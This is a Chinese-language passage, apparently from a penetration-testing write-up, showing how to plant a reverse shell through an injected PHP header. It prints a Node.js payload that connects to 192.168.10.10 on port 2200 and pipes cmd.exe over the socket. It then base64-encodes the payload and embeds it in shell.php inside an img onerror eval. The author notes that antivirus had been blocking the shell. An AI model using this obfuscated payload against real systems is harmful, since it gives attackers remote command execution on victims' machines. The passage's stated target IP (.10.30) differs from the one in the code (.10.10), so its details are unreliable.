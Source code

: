 修改木马中的代码，修改为反弹shell的代码，利用nodejs库反弹shell的代码(payload)：

```js
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(2200, "192.168.10.10", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

以上代码通过创建Socket来连接192.168.10.30(被攻击的电脑ip) 的2200端口(Netcat监听的端口)

将以上代码进行base64加密，加密后的密文：

```
dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgyMjAwLCAiMTkyLjE2OC4xMC4xMCIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs
```

并替换掉我们前边写的alert(250)代码,最终写到shell.php中的代码如下：

```
<?PHP
 header("HTTP/1.1 500 Not \<img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgyMjAwLCAiMTkyLjE2OC4xMC4xMCIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs`,`base64`).toString())'>");
 ?>
```

反弹成功了，别问我这里为什么又变成kali了，因为我测试了半天一直不能反弹，结果发现是被杀毒软件拦截了.........

![image-20231106151742124](assets/image-20231106151742124.png)
